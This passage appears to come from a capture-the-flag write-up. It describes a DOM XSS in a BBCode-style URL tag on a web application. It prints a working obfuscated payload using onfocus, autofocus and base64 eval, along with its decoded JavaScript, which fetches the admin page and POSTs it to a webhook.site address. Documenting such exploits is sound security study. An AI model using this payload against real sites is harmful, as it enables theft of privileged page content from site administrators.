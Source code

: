The code revealed that the authors disabled the insertion of images due to safety concerns. Nevertheless, exploiting the presence of certain tags, we successfully triggered a **DOM XSS** after some attempts. As our initial action, we dumped the admin page using the following payload:
```
[url \"aa\"onfocus=\"eval(atob('ZmV0Y2goJy9hZG1pbicpLnRoZW4ocj0+ci50ZXh0KCkpLnRoZW4oKGQpPT57ZmV0Y
2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzcyZTEyMGZhLTQyOTEtNDY1ZC05ZDQ1LWI5Zjg0YzM2YmM5OD9jPScrZW5jb2RlVV
JJQ29tcG9uZW50KGQpKX0p'))\"autofocus]XSS[/url]
```

```js
// Decoded version of base64 

fetch('/admin')
	.then(r => r.text())
	.then((t) => {
		fetch(
			'https://webhook.site/[webhook]',
			{method:'POST', body:t}
		)
	})
```

![](admin_reset_page.png)\
*The dumped admin page*
